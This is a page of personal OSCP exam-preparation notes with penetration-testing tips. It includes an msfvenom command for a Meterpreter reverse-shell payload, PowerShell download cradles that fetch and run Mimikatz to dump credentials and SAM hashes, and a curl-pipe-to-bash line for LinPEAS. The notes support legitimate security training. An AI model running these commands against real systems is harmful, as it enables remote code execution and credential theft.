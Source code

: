```yaml
---
description: Just some rough notes in preparation for the OSCP.
---
```


# OSCP Notes

### Quick Notes

* Transferring a file such as a .doc to a FTP share? Reminder to use `binary` before doing so or else it will upload as ASCII.&#x20;
* If you have a shell via Netcat on a Windows machine, try using Curl to download a  ps1 to the target and executing it.
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh -o meterpreter-64.ps1`
* Metasploit and Meterpreter are only allowed against one machine in the exam so ensure that you are sure before executing. There may be other ways to accomplish what you want (e.g., CrackMapExec, Lsassy, etc).&#x20;
* Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds`&#x20;
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam`
* If you are getting the following message `You are not a search engine. Permission denied.` when attempting to browse to robots.txt then set your user agent in Burp to the following:&#x20;
  * `User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)`
* If a login page default password doesn't work then think of what a lazy admin would use (uppercase and lowercase). CeWL can be used here if you're running out of ideas.
* If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash:
  * `curl 10.10.10.1:8080/linpeas.sh | bash`
* **REMEMBER KISS - Keep It Super Simple**. Several times I have tried to do something overly complicated when the first thing I would have tried would work.&#x20;

### Helpful Blogs

* [List of Kerberos attacks with different tooling](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Helpful OSCP Cheatsheets

* [OSCP Enumeration Cheatsheet](https://strongcourage.github.io/2020/05/03/enum.html)
* [iRedTeam Cheatsheet](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
